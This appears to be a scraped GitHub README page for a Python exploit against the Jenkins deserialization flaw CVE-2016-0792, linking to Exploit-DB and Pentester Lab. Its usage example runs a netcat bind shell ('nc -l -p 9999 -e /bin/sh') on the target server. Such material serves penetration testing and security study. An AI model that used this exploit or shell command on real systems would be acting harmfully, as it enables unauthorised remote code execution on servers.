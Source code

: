 # jenkins-cve-2016-0792

Exploit for Jenkins serialization vulnerability - CVE-2016-0792

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jpiechowka](https://github.com/jpiechowka) |
| Url      | [https://github.com/jpiechowka/jenkins-cve-2016-0792](https://github.com/jpiechowka/jenkins-cve-2016-0792)                                               |
| Stars    | 50                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2016-0792* deserialization* exploit* jenkins-serialization-vulnerability* python* serialization* vulnerability* vulnerability-detection

</details>

## Readme

# Jenkins CVE-2016-0792
## Exploit for Jenkins serialization vulnerability - CVE-2016-0792

#### Exploit database

[https://www.exploit-db.com/exploits/42394/](https://www.exploit-db.com/exploits/42394/)

#### More information can be found here

1. [Contrast Security](https://www.contrastsecurity.com/security-influencers/serialization-must-die-act-2-xstream)

2. [Pentester Lab](https://www.pentesterlab.com/exercises/cve-2016-0792/)

#### Requirements

1. Python 3.6.x

2. [requests](http://docs.python-requests.org/en/master/) library is required for this exploit to work

      `sudo pip install requests`

#### Usage

`python3`

`from exploit import exploit`

`exploit(url, command)`

Where url is url to jenkins server and command is command to execute

##### Example

`exploit('http://192.168.56.101/jenkins/', '/usr/bin/nc -l -p 9999 -e /bin/sh')`

This will run nc and listen on port 9999 on vulnerable machine

For demonstration purposes I will be running ISO from [Pentester Lab](https://www.pentesterlab.com/exercises/cve-2016-0792/)

[![asciicast](https://asciinema.org/a/131436.png)](https://asciinema.org/a/131436)

#### Disclaimer
Using this software to attack targets without permission is illegal. I am not responsible for any damage caused by using
 this software against the law.



## Get the content

```
git clone https://github.com/jpiechowka/jenkins-cve-2016-0792
cd jenkins-cve-2016-0792
```

{% embed url="https://github.com/jpiechowka/jenkins-cve-2016-0792" %}

<figure><img src="https://avatars.githubusercontent.com/u/9040085?v=4" alt=""><figcaption><p>jpiechowka</p></figcaption></figure>
